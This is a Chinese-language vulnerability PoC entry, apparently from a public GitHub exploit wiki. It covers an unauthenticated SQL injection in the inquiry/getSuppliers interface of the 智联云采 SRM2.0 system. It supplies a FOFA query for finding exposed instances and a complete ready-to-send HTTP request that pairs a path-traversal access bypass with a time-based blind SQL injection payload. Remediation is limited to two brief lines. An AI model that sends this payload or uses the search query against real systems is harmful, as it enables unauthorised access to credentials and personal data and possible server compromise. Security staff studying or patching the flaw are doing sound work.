

# 智联云采 SRM2.0 inquirygetSuppliers处 SQL注入漏洞

# 漏洞描述

智联云采 SRM2.0 inquirygetSuppliers接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

智联云采

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title=="SRM 2.0"

POC/EXP：延时3秒，执行2次 

POST /adpweb/static/%2e%2e;/a/srm/inquiry/getSuppliers?code=%27+AND+%28SELECT+1312+FROM+%28SELECT%28SLEEP%283%29%29%29HckV%29--+HyuV HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

POC/EXP：延时5秒，执行2次 

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
